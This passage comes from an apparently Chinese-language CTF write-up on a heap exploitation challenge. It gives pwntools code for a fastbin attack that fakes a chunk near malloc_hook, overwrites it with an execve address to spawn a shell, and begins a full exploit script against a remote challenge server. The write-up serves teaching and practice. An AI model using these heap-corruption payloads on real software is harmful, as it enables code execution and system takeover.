    ![image-20240711164108341](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407111641435.png)

   * 在malloc_hook之前伪造一个chunk，用来覆盖malloc_hook：

   ```python
   #申请一个size字段为0x71的chunk，再释放掉，如何修改其fd值，指向malloc_hook前面size为0x7f的空间伪造chunk（malloc_hook-0x23）
   add(0x60,b'6')  #4
   free(4)
   payload = b"AAAAAAAA"*3 + p64(0x71) + p64(malloc_hook-0x23)
   fill(3,payload)
   ```

   ![image-20240711164131595](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407111641690.png)

   ![image-20240711165225361](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407111652543.png)

   * 两次申请，申请到伪造的chunk，然后堆溢出修改malloc_hook，最后调用即可：

   ```python
   #将伪造的chunk申请回来
   add(0x60,b't')  #4
   add(0x60,b'j')  #6
   
   #覆盖malloc_hook指向execve_addr，覆盖的垃圾数据要在gdb中计算好
   payload = b"AAAAAAAA"*2+b"aaa"+p64(execve_addr)
   fill(6,payload)
   
   #调用evecve("/bin/sh")
   add(0x100,b'lzl')
   p.sendline(b"cat flag")
   p.interactive()
   ```

5. 完整EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   
   p = remote("node5.buuoj.cn",25775)
   # p = process("./pwn")
   libc = ELF('./libc-2.23.so')
   elf = ELF("./pwn")
   
   
   def add(size,content):
       p.sendlineafter(b':','1')
       p.sendlineafter(':',str(size))
       # p.sendlineafter(':',content)
   
   def fill(index, content):
       p.sendlineafter(':','2')
       p.sendlineafter(':',str(index).encode())
       p.sendlineafter(':',str(len(content)))
       p.sendafter(b':',content)
   
   def free(index):
       p.sendlineafter(':','3')
       p.sendlineafter(':',str(index).encode())
   
   def dump(index):
       p.sendlineafter(b':',b'4')
       p.sendlineafter(b':',str(index).encode())
   ```